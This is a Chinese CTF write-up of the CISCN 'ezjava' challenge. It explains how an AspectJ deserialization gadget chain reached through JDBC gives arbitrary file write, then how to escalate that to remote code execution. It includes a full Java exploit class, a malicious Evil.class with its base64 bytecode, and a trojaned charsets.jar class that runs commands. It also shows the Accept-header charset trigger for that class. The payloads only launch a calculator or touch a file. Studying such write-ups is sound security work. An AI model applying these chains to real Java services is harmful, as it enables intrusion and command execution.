# Aj链任意写文件后续带来的RCE深入分析-先知社区

> **来源**: https://xz.aliyun.com/news/17239  
> **文章ID**: 17239

---

题目及其附件是选自CISCN国赛半决赛华南赛区的ezjava

但是题目环境是不出网的

## 链子分析



然后里面传入的jdbcBean，继承了序列化的接口



看到数据库连接

继承DatasourceServiceImpl接口，调用了testDatasourceConnectionAble方法



感觉要打jdbc，版本


看到pom.xml的依赖



有个aj依赖，搜一下感觉能打链子

aj的链子

```
Gadget chain:
HashSet.readObject()
    HashMap.put()
    
        HashMap.hash()
            TiedMapEntry.hashCode()
                TiedMapEntry.getValue()
                    LazyMap.get()
                    
                        SimpleCache$StorableCachingMap.put()
                            SimpleCache$StorableCachingMap.writeToPath()
                                FileOutputStream.write()

```

那就是利用jdbc触发readobject方法

但是我优点不太理解任意写文件能干吗？

但是我们还是要先将链子给弄出来先



成功写入

然后题目的readObject方法，我们就可以直接触发，不需要走CC链,同时也没有CC链的依赖给我们



那么这里应该就是jdbc触发readObject进入序列化，然后我们再反射调用UserBean里面的readObject方法，

然后就能够触发a.put剩下的就是走aj链的后半段

```
                        SimpleCache$StorableCachingMap.put()
                            SimpleCache$StorableCachingMap.writeToPath()
                                FileOutputStream.write()
```

最后的exp

```
/**
 * @className Exp
 * @Author shushu
 * @Data 2025/3/11
 **/
package org.shu;
import org.example.ezawd.bean.UserBean;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import java.util.HashMap;
public class Exp {
    public static Constructor<?> getCtor(final String name) throws Exception {
        final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        return ctor;
    }
    public static void main(String[] args) throws Exception {
        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class, int.class);
        con.setAccessible(true);
        // 实例化对象
        HashMap map = (HashMap) con.newInstance("C:\removeDisk\JavaJdk\jdk_8u_65\jre\classes\", 1); //这里写文件路径（必须是存在的路径）
        Constructor constructor = Class.forName("org.example.ezawd.bean.UserBean").getDeclaredConstructor();
        constructor.setAccessible(true);
        Object userBean = constructor.newInstance();
        Class cls = userBean.getClass();
        Field field = cls.getDeclaredField("obj");
        field.setAccessible(true);
        field.set(userBean, map);
        Field field1 = cls.getDeclaredField("name");
        field1.setAccessible(true);
        field1.set(userBean, "Evil.class"); //这里写文件名
        Field field2 = cls.getDeclaredField("age");
        field2.setAccessible(true);
        String payload = "";  //这里写base64编码后的文件内容
        field2.set(userBean, payload);
        byte[] bytes = serialize(userBean);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
    }
    public static byte[] getBytes() throws IOException {
        InputStream inputStream = new FileInputStream(new File("C:\removeDisk\CTF\web\javatool\javapayloadfile\Evil.class"));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}

```

但是有个问题，如果环境出网那么我们可以利用写入so文件触发rce

如果不出网呢？又该如何办呢？

## 出网

## 1、写so文件加载

这个挺多文章的，就贴几篇了，先不分析

<https://xz.aliyun.com/news/14019?time__1311=eqUxuiDti%3Dn8KDsD7%2BPD%3DPitqGQdtNdx&u_atoken=39d34b07e59c8f4ac504085362d06917&u_asig=0a472f9217417912578338619e003e>

<https://z3r4y.blog.csdn.net/article/details/139052904?fromshare=blogdetail&sharetype=blogdetail&sharerId=139052904&sharerefer=PC&sharesource=git_clone&sharefrom=from_link>

<https://www.kinsomnia.cn/index.php/2024/06/04/2024ciscn-ezjava/>

## 2、写恶意类加载

Evil.java

```
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(ObjectInputStream ois){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

利用

javac Evil.java

生成.class恶意的二进制文件

利用getbyte方法

```
    public static byte[] getBytes() throws IOException {
        InputStream inputStream = new FileInputStream(new File("恶意的文件绝对路径\Evil.class"));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
    System.out.println(new String(Base64.getEncoder().encode(getBytes())));
```

或者直接在命令行里面

```
cat Evil.class |base64 -w0
```

即可生成

```
yv66vgAAADQAJgoACQAVCgAWABcIABgKABYAGQcAGgcAGwoABgAcBwAdBwAeBwAfAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACnJlYWRPYmplY3QBAB4oTGphdmEvaW8vT2JqZWN0SW5wdXRTdHJlYW07KVYBAA1TdGFja01hcFRhYmxlBwAaAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwACwAMBwAgDAAhACIBAARjYWxjDAAjACQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAsAJQEABEV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWACEACAAJAAEACgAAAAIAAQALAAwAAQANAAAAHQABAAEAAAAFKrcAAbEAAAABAA4AAAAGAAEAAAAFAAIADwAQAAEADQAAAFQAAwADAAAAF7gAAhIDtgAEV6cADU27AAZZLLcAB7+xAAEAAAAJAAwABQACAA4AAAAWAAUAAAAIAAkACwAMAAkADQAKABYADAARAAAABwACTAcAEgkAAQATAAAAAgAU
```

然后放入aj链的payload里面去



把生成的字节码贴在fake\_mysql\_gui上面



然后就会在jre\classes下面生成一个恶意类



那么我们去调用它，直接调用类名就行

```
        try {
            Class<?> evilClass = Class.forName("Evil");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
        } catch (Exception e) {
            e.printStackTrace();
        }
```

然后把生成的base64字节码贴到gui上面即可



个人这种方法的话要比写so文件简单一点，因为他不需要调用太多的工具，但是前提是要清楚知道jre\classes路径在哪。

因为本地我是知道这个路径的，由于比赛awd是有靶机，也是能看到这个java的路径的，所以才想到这个方法

## 不出网

## 1、用charsets.jar包

```
jar -cf charsets.jar Evil.class
```

将恶意类打包成jar



这里尝试了很久一直不成功，于是我新建了一个测试类

```
/**
 * @className Test
 * @Author shushu
 * @Data 2025/3/12
 **/
package org.shu;

import java.io.IOException;

import static org.springframework.http.MediaType.parseMediaTypes;

public class Test{
    public static void main(String[] args) throws IOException {
        parseMediaTypes("text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");

    }
}
```

编译后，然后在Test.class文件所在的目录下运行

```
java -XX:+TraceClassLoading Test
```

发现rt.jar和charsets.jar是自动开启的





因为我们Test中调用charsets.jar中的字符集，所以加载这个jar包很正常

那么当我们把它注释掉之后呢？

这里我新建了一个新的Test





依旧会开启

随后我拉了一个linux的镜像


上传测试

运行Test(有字符集的)， 发现没有找到，那如果找到了应该就是opened了



运行NewTest，找不到opened charsets.jar的字样，说明也正常。

经过调试后发现原来是我windows的原因，Windows下会自动加载charsets.jar

也就是说在windows里面你要是直接运行app.jar的话会导致你无法完成覆盖，

因此我们

我们先把charsets.jar解压，用7z啥的解压工具直接解压



右击然后以IDEA来打开项目



为了保持最小体积，抛弃其他类（需要保留ExtendedCharsets类，不然无法加载其他类）。这里就选择覆盖sun.nio.cs.ext.IBM33722

内容为

```
package sun.nio.cs.ext;

import java.util.UUID;


public class IBM33722 {
    static {
        fun();
    }

    public IBM33722(){
        fun();
    }

    private static java.util.HashMap<String, String> fun(){
        String[] command;
        String random = UUID.randomUUID().toString().replace("-","").substring(1,9);
        String osName = System.getProperty("os.name");
        if (osName.startsWith("Mac OS")) {
            command = new String[]{"/bin/bash", "-c", "open -a Calculator"};
        } else if (osName.startsWith("Windows")) {
            command = new String[]{"cmd.exe", "/c", "calc"};
        } else {
            if(new java.io.File("/bin/bash").exists()){
                command = new String[]{"/bin/bash", "-c", "touch /tmp/charsets_test_" + random + ".log"};
            }else{
                command = new String[]{"/bin/sh", "-c", "touch /tmp/charsets_test_" + random + ".log"};
            }
        }
        try{
            Runtime.getRuntime().exec(command);
        }catch (Throwable e1){
            e1.printStackTrace();
        }
        return null;
    }
}
```

编译好之后，替换掉原来的.class文件，然后打包

```
jar cvfM0 charsets.jar META-INF/* sun/*
```



### windows环境

要是本地的话基本上得直接覆盖了，就是把刚刚编译好的jar包直接放到jre/lib/目录下面



```
Accept: multipart/form-data;charset=IBM33722;
Accept: text/html;charset=IBM33722;
```

因为我们的覆盖已经算是写入文件了，所以我们带着这个Accept头就可以触发覆盖掉的恶意类



### linux环境

同理如果我们是直接覆盖charsets.jar的话也是ok的



但是我还是想尝试一下写入

开始的时候我是只修改了一个class文件，然后去覆盖的，结果是太大了，根本无法写入

后来我想着能不能删掉其他的class，只带一个class呢？

答案是可以的

